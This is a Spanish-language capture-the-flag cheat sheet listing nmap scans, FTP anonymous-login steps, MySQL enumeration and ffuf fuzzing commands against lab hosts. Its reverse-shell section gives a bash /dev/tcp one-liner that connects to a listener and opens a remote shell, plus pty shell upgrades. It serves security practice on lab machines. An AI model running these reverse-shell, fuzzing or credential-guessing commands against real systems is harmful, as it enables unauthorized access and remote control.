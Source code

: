 # CtfCheatsheet

### NMAP
```
nmap *10.129.196.97 -p 1-65535 -T4 -A -v   //// -T4(limite de tiempo) -A ( agresivo inclue -sV ( versiones) -sC (scripts) -O (-o sistema operativo)) -v (muestre mas cosas en consolas)

nmap -sS -sU -T4 -A -v 10.10.10.3 (puertos udp)


### REVERSE SHELL
```

!/bin/bash ---> otra shell por ejemplo cuando estamos dentro de un programa que utiliza less( igual que el vim/nano
solo que no se puede escribir) ejecutamos !/bin/bash y nos saca fuera como si fueramos root
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
cuando no funciona un comando se prueba poniendo bash -c "comando" en este caso ->> bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"

REVERSE SHELL MAS POTENTE (Se ejecuta una vez que están dentro de una reverse Shell) ->

python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")

### MYSQL
```
mysql -h IP -u root
Dentro de la revershell lanzamos mysql -u user -pPASSWD (sin espacio detras de la p)
show databases;
por ejemplo tenemos la databases de joomla ---> use joomla
show tables;
select * FROM users \G (por ejemplo la que encontramos es user) 

### FTP
```
ftp <IP>
>anonymous
>anonymous
>ls -a # List all files (even hidden) (yes, they could be hidden)
>binary #Set transmission to binary instead of ascii
>ascii #Set transmission to ascii instead of binary
>bye #exit
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
Tambien se puede descargar desde dentro de ftp con get filename

### FFUF
```
		-MC --> acepta cualquier codigo
		-fs 0 ----> filtra tamaño 0
		-status 404 --> no hay nada
		-status 200 ---> buscamos este
		-status 301 ---> comun como el 404

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.html,.sh,.txt,.aspx -u http://10.10.11.175:8530/FUZZ -mc all -ic  ----->> lista directorios que hay en la pagina
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" -fs
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u http://10.10.10.70/submit -d "character=bart&quote=FUZZ" -H Content-Type:application/x-www-form-urlencoded -mc all
ffuf -w /usr/share/seclists\Usernames\xato-net-10-million-usernames.txt -u http://10.10.11.160:5000/login -d "username=FUZZ&password=nidecoña" -H Content-Type:application/x-www-form-urlencoded -mr 'Invalid login'
```